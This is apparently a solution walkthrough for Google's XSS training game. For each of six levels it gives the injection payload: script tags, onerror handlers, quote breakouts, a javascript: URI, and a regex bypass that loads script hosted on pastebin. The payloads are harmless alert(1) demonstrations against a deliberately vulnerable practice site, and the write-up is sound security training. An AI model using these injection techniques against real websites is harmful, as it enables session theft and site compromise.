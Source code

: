 ## Cross-site scripting (XSS)Cross-site scripting (XSS)

*https://xss-game.appspot.com/*

This is a note of practicing the xxs 

Level 1
This is the most obvious and easiest one. Just insert following code and you're done:

<script>alert(1)</script>
Level 2
Since the script won't work you'll have to think of another tags to trigger JavaScript code execution. The first thing which came in mind was to use img tags along with the onerror attributes. Here you go:

<img src="http://inexist.ent" onerror="javascript:alert(1)"/>
Level 3
Well this time I had to read some code in order to understand the applications logic. If you toggle the code you'll see index.html:

[...]
      function chooseTab(num) {
        // Dynamically load the appropriate image.
        var html = "Image " + parseInt(num) + "<br>";
        html += "<img src='/static/level3/cloud" + num + ".jpg' />";
        $('#tabContent').html(html);
[...]
As you see the num parameter is used to generate the img tag. The ideas was to break-out the quotes and insert some sneaky javascript code. Again I've used the onerror attribute to insert JS. Insert this into the URL address bar and you'll get your alert():

https://xss-game.appspot.com/level3/frame#3' onerror='alert(1)';
Level 4
This is quite tricky. This time I have followed the provided hints. Having the JS console activated and requesting https://xss-game.appspot.com/level4/frame?timer=' showed me following output:

SyntaxError: unterminated string literal

startTimer(''');
Obviously there is again a way to escape the function and append the alert() call. I have tried several things:

https://xss-game.appspot.com/level4/frame?timer=');
    SyntaxError: unterminated string literal

    startTimer('')');
https://xss-game.appspot.com/level4/frame?timer=');
    SyntaxError: unterminated string literal


    startTimer('')');
And then I've decided to use some URL encoding: %3B represents the semi-colon.

https://xss-game.appspot.com/level4/frame?timer=')%3B
    SyntaxError: unterminated string literal


    startTimer('');');
Aha.. There you go! We can terminate the call and insert other ones. The final request:

https://xss-game.appspot.com/level4/frame?timer=')%3Balert(1)%3Bvar b=('
which resulted in

startTimer('');alert(1);var b=('');
I must admit: Nice one!

Level 5
This one was quite easy. On the first page you can see a link: https://xss-game.appspot.com/level5/frame/signup?next=confirm. Now let's have a look how this next parameter is used in confirm.html:

[...]
<script>
      setTimeout(function() { window.location = '{{ next }}'; }, 5000);
</script>
[...]
So the window.location is set based on the next parameter. This is a typical case for DOM based XSS. Besides that we have in signup.html:

[...]
<br><br>
    <a href="{{ next }}">Next >></a>
</body>
[...]
Again the next parameter is used as an a tag target. Ok, enough bla bla. Here is the PoC:

Go to https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert(1)
Insert your Mail
Click Next >>
Voila!
Level 6
This time I had to figure to host my JS code. So I've used pastebin.com to host my evil code. Next I had a look at the code. As you can read a new script tag is created and the src attribute is set appropriately. The only catch about it: You're not allowed to have a URL containing https?:

[...]
      if (url.match(/^https?:\/\//)) {
        setInnerText(document.getElementById("log"),
          "Sorry, cannot load a URL containing \"http\".");
        return;
      }
[...]
Afterwards the text after the hash is used as the scripts src:

// Load this awesome gadget
scriptEl.src = url;
Have you noticed something about the regexp? No?! Seriously not? Ok. It's not case-sensitive. You can escape it by using hTTps or any other combination. So the final PoC:

https://xss-game.appspot.com/level6/frame#htTps://pastebin.com/raw.php?i=15S5qZs0
Conclusion
This was a great game to play with. After all I must say the levels were not that difficult but a really good opportunity to refresh my XSS skills :)

http://blog.dornea.nu/2014/06/02/googles-xss-game-solutions/
